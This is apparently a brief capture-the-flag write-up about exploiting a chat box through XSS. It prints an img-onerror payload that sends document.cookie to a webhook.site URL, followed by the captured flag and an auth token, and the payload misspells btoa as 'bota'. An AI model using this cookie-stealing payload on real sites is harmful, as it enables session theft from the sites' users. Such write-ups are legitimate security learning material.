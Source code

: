 # Approach
- We were prompted with a chat box, which hints to possible XSS vulnerability. After trying the following
```javascript
<img src =asdf onerror="$.get('https://webhook.site/****'+ bota(document.cookie))">
```
- and upon inspecting the HTTP request sent to the request bin, I was able to see the flag and an auth token.
# Flag
CTF{3mbr4c3_the_c00k1e_w0r1d_ord3r}

auth=TUtb9PPA9cYkfcVQWYzxy4XbtyL3VNKz
